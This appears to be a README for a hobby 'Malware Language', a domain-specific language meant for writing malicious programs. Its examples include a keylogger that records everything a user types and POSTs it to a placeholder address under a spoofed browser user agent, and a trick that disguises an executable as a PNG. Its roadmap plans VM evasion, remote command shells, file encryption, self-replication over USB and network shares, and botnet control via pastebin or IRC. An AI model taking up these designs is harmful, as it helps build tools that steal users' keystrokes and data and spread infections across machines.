 # Malware Language

Language only is buildable in nix enivorments.

### Example code
Basic example
```
use system; @ Imports exit
use keyboard; @ Imports lock, unlock
use window; @ Imports notify

main:{
 keyboard.lock(); @ Locks the keyboard 

 window.notify("Oh hi mark!"); @ Utilizes builtin function

 keyboard.unlock(); @ Unlocks the keyboard
 system.exit();
}
```

Network POST example
```
use system; @ Imports exit
use keyboard; @ Imports log
use network; @ Imports POST
use time; @ Imports until

main:{
 wait:(time.until("22:00")){ @ Waits until 22:00 today before exiting
  info := keyboard.log(); @ Logs everything the user enters
 }

 network.set_user_agent("Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36"); @ Updates the user agent for this request
 network.POST("address", "port", info); @ Will send whatever the user entered 

 system.exit(); @ Exits the program
}
```

Transform example
```
use system;
use object;
use window;

main:{
 object.set_header_target("png"); @ Will result in the end product being identified as a png
 object.set_extension(".png"); @ Sets the program extension
 
 window.notify("Hello, World!"); @ Prints "Hello, World!" to the screen

 system.exit(); @ Exits the program
}
```

## General ideas on what more the language can do
1. Includes tools to check if the malware is running in a vm, what kind of vm(?)
2.Include options to open socket to target, send commands and retrieve results, copy files, mv files etc.
3. Be able to write to specific disk blocks, write & read from the disk.
4. Encrypt files and decryptions methods. Should contain multiple different encryptions methods
5. Able to copy the executable to different locaitons
6. Metasploit compatability? Being able to run metasploit scripts?
7. Using pastebin for sending commands to zombies in a botnet.
8. IRC for sending commands to zombies in a botnet(?)
9. Copy to usb
10. Copy accross network shared folders

## The compiler should then be able to
1. List arguments for the compiler, `-h`
2. Target plattform, windows, nix
